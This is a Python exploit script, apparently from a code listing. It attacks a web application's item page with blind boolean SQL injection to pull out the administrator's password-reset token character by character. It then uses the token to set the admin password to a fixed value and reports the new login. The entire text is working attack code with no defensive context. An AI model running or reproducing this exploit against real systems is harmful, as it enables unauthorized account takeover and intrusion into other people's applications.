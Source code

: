 ```python

header = {"Content-Type": "application/x-www-form-urlencoded"}
# Reset user password
def resetPassword():
    print("[+] Reseting the password for " + userName)
    data = {"username" : userName}

    resetUrl = target + "/login/resetPassword.php"
    resetPasswordStatus = session.post(resetUrl, data = data, headers = header, allow_redirects=True)

    resetSoup = BeautifulSoup(resetPasswordStatus.text, features = "html.parser")
    if (resetSoup.find("strong").string != "Success!"):
        print("[+] Reset password failed! Does username exist?")
        exit()
    
    token = getToken()

    resetUrl = target + "/login/doResetPassword.php"
    session.get(resetUrl + "?token=" + token)
    data = {"token" : token, "password" : "caueob"}
    
    resetUrl = target + "/login/doChangePassword.php"
    resetPassRes = session.post(resetUrl, data = data, headers = header)
    resetPassSoup = BeautifulSoup(resetPassRes.text, features = "html.parser")
    if(resetPassSoup.find("strong").string != "Success!"):
        print("[+] Reset password failed!")
        exit()
    else:
        print("[+] Password changed! Login with admin:caueob")

# Get resetPassword Token with SQL injection

def getToken():
    print("\n[+] Dumping the reset token...")
    token = ""
    for i in range (1,50):
        injection_string = "5 OR (select (select ascii(substring(token,%d,1)) from user where id_level=1 limit 1) = [CHAR])" % (i)
        retrieved_value = sqli(target, injection_string)
        if retrieved_value:
            token += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print("\n[!] Done\n")
            break
    print("[+] Reset password token is: " + token)
    return token

def sqli(ip, inj_str):
    for j in range (32, 126): # Ascii table numbers
        target = "%s/item/viewItem.php?id=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        #proxies = {'http':'http://127.0.0.1:8080'}
        #r = requests.get(target, proxies=proxies)
        r = requests.get(target)
        r2 = str(r.status_code)

        if "404" in r2:
            return j
    return None

```